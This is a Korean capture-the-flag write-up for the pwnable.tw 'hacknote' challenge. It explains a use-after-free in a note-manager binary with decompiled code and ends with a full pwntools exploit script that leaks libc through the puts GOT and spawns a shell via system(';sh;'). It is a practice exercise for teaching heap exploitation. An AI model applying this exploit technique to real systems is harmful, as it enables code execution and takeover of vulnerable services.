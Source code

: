 ```yaml
---
layout: post
title: "pwnable.tw - hacknote Write-Up"
date: 2018-10-30
excerpt: "200pts"
tags: [write-up]
comments: true
---
```

Use After Free 취약점을 이용한 heap exploit
* * *
![main](https://t1.daumcdn.net/cfile/tistory/99A1D3345BC8899029)

메인은 간단하게
1. Add note
2. Delete note
3. Print note
4. Exit

으로 이루어져있으며 히든 메뉴는 없습니다.
```c
unsigned int sub_8048646()
{
  _DWORD *v0; // ebx
  signed int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf; // [esp+14h] [ebp-14h]
  unsigned int v5; // [esp+1Ch] [ebp-Ch]
 
  v5 = __readgsdword(0x14u);
  if ( dword_804A04C <= 5 )
  {
    for ( i = 0; i <= 4; ++i )
    {
      if ( !ptr[i] )
      {
        ptr[i] = malloc(8u);
        if ( !ptr[i] )
        {
          puts("Alloca Error");
          exit(-1);
        }
        *(_DWORD *)ptr[i] = sub_804862B;
        printf("Note size :");
        read(0, &buf, 8u);
        size = atoi(&buf);
        v0 = ptr[i];
        v0[1] = malloc(size);
        if ( !*((_DWORD *)ptr[i] + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)ptr[i] + 1), size);
        puts("Success !");
        ++dword_804A04C;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
  {
    puts("Full");
  }
  return __readgsdword(0x14u) ^ v5;
}
```
위는 Add note의 디컴파일된 코드인데, 대부분의 heap exploit 바이너리처럼 일반적인 방식으로 malloc만 하는 것이 아니라

바이너리 자체에서 특수한 방식으로 note을 배열하고 관리합니다.

![chunk](https://t1.daumcdn.net/cfile/tistory/99C6A23D5BC88BF702)

Add note로 생성된 note는 위와 같은 형태로 구성되며
```c
int __cdecl sub_804862B(int a1)
{
  return puts(*(const char **)(a1 + 4));
}
```
위 코드처럼 인자+4를 출력하는, 그림에선 puts(+4)로 표현되어 있는 함수 주소와

우리가 입력한 데이터의 주소를 user_data로 가지는 chunk가 먼저 할당되고, 그 밑에 사용자가 요청한 chunk가 할당됩니다.

또한 Delete note시 heap N-1이 먼저 free되고, heap N-2가 그 다음으로 free됩니다. 하지만 ptr은 남아있어 exploit에 이용됩니다.
```c
unsigned int sub_80488A5()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]
 
  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  v1 = atoi(&buf);
  if ( v1 < 0 || v1 >= dword_804A04C )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[v1] )
    (*(void (__cdecl **)(void *))ptr[v1])(ptr[v1]);
  return __readgsdword(0x14u) ^ v3;
}
```
Print note를 눈여겨보아야 하는데, 지정한 인덱스의 chunk의 puts(+4)를 인자로 puts(+4)를 call합니다.

따라서 만약 우리가 puts(+4)와 &data를 임의의 값으로 바꾸면 Print note시 원하는 함수를 실행할 수 있습니다.

일단 exploit 루트는 uaf인데, fastbin을 두 개 할당해주고 한번 free하면 heap N-1과 heap N-2의 크기 차이로 다른 fastbin에 들어가게 됩니다.
![https://t1.daumcdn.net/cfile/tistory/992BF6445BC8902010)

이 후 더 작은 크기의  fastbin을 요청하면 heap N-1과 heap N-2 모두 (저 상황에서) 0x10 fastbin에서 할당됩니다. (배열 꼬임)

fastbin의 특성상 두번째 free된 chunk가 먼저 할당되고, 첫번째 heap N-1이 우리가 새롭게 할당된 chunk N-2의 위치가 되는 것입니다.

ptr은 유지되어 우리가 puts(+4)는 유지한채 아무 함수의 got를 &data에 덮어 씌우면  Print note시 libc leak이 가능하게 됩니다.


libc leak 후 offset을 이용해 system을 구하면 같은 원리로 쉘 취득이 가능합니다.

이떄 Print note로 실행되는 함수는 함수 주소와 인자가 같아(ptr[v1]) 단순히 system + &/bin/sh을 넘긴다면 system("&system/binsh")가 되므로 쉘을 얻을 수 없습니다. 

그러므로 단순히 system + ";sh;"를 넘기면 system("&system;sh;")로 쉘이 따집니다.

exp.py
```python
from pwn import *
 
#p = process('./hacknote')
p = remote('chall.pwnable.tw', 10102)
e = ELF('./hacknote')
 
puts_got = e.got['puts']
print_4 = 0x0804862b
 
 
puts_offset = 0x5f140
system_offset = 0x3a940
 
'''
PROCESS
puts_offset = 0x5fca0
system_offset = 0x3ada0
'''
 
def alloc(size, payload):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Note size :')
    p.sendline(str(size))
    p.recvuntil('Content :')
    p.sendline(payload)
 
def free(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(idx))
    
def dump(idx):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(idx))
 
# leak libc
alloc(24, 'AAAA')
alloc(24, 'BBBB')
 
free(0)
free(1)
payload = p32(print_4)
payload += p32(puts_got)
 
alloc(12, payload)
dump(0)
 
leak = u32(p.recv(4))
 
base = leak - puts_offset
system = base + system_offset
 
log.success('libc base leaked : ' + hex(base))
 
#exploit
free(2)
 
payload = p32(system)
payload += ";sh;"
 
alloc(8, payload)
dump(0)
 
p.interactive()
```
* * *
UAF는 의도치 않게 heap 배열이 꼬여버리는 현상에서 시작되는 것 같습니다.
